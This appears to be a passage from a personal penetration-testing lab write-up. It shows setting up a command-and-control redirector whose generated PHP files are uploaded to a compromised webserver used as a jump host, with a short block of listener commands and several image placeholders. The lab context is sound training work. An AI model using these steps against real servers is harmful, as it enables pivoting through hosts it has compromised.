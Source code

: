 
When created, this will create a set of `.php` files which must be uploaded to the jumpserver (our compromised webserver) and served by a HTTP server. Under normal circumstances this would be a trivial task as the compromised server already has a webserver running; however, out of courtesy to anyone else attempting the network, we will not be using the installed webserver.

![[Pasted image 20231231104451.png]]

```
set RedirectListener CLIHTTP
set HOST 10.200.101.200
set Port 47000
options
execute
```
![[Pasted image 20231231104900.png]]

![[Pasted image 20231231105008.png]]

After executing this files will be created  
![[Pasted image 20231231105302.png]]

Http listener
![[Pasted image 20231231105714.png]]

